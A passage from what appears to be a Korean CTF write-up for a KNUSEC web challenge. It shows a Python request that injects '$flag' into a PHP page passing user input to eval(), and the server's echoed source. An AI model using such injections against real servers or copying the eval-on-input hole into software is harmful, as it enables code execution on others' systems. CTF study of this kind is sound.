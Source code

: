 ```
FLAG: B0sSBaby!
```

### 18_web2 (100pt)

![](https://img.shields.io/badge/KNUSEC%20CTF-2017-brightgreen.svg?longCache=true&style=for-the-badge) ![](https://img.shields.io/badge/KNUSEC%20CTF-2018-brightgreen.svg?longCache=true&style=for-the-badge)

닫혀있다. 근데도 라업은 올릴거다.

![](img/18_web2.png)

개꿀 아님미까...?

`$_REQUEST`는 POST로 보낼때 폼 데이터를 가지고 있다.

아마 `$flag`에 플래그가 담겨져 있을테니 그렇게 해보자.
```
Python 3.7.0 (v3.7.0:1bf9cc5093, Jun 27 2018, 04:06:47) [MSC v.1914 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': '$flag'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(14) "flag not here!"\n'
>>>
```
플래그는 여기에 없나보다. 그럼 수상한 flag2.php를 들여다 보자.

